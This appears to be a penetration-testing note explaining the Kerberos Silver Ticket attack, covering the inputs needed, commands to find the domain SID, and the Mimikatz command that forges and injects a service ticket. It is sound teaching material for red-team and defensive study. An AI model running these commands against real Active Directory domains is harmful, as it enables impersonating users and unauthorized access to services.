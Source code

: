 # Silver Ticket Attack

> **Any** domain user can obtain a service ticket to any service in the domain. The service ticket is encrypted with the password hash of the user or computer account that the service is registered for. By retrieving and cracking the service ticket, it is possible to discover the service account's password hash. With the hash of a service account, you can create a ticket that can be used to interact with any of the services that the service account is registered for (i.e., has a [[service-principal-name|SPN]] for).

---

## Required pieces of information

1. The name of the user account to impersonate
    - Doesn't have to be a real user account
    - i.e., Administrator
2. The name of the domain
    - i.e., hydra.test
3. The SID of the domain
    - i.e., S-1-5-21-849420856-2351964222-986696166
4. The fully qualified domain name of the server
    - i.e., hydra-ws01.marvel.test
5. The target service name
    - i.e., SQLService
6. The NTLM/RC4 password hash of the target service
    - Obtainable via kerberoasting, SAM dump, secretsdump, etc.

---

## (PowerView) Obtain domain SID

```powershell
Get-DomainSID
```

---

## (Active Directory PowerShell Module) Obtain Domain SID

```powershell
Get-ADDomain
```

---

## (Impacket) Obtain Domain SID

```bash
lookupsid.py
```

Also:

```bash
getPac.py 
```

---

## (Mimikatz) Create and Use the Silver Ticket

```powershell
mimikatz: kerberos::golden /user:$USER_TO_IMPERSONATE /domain:$DOMAIN /sid:$DOMAIN_SID /target:$FQDN_TARGET_SERVER /service:$TARGET_SERVICE_NAME /rc4:$NTLM_OR_RC4_HASH /ptt
```

Open up a new command prompt that leverages the silver ticket (must be in a GUI session to access the new command prompt).

```powershell
mimikatz: misc:cmd
```

---

## [(Impacket) Create and Use the Silver Ticket](https://yojimbosecurity.ninja/golden-ticket-with-impacket/)

- This method will need to be modified slightly for **silver** tickets.
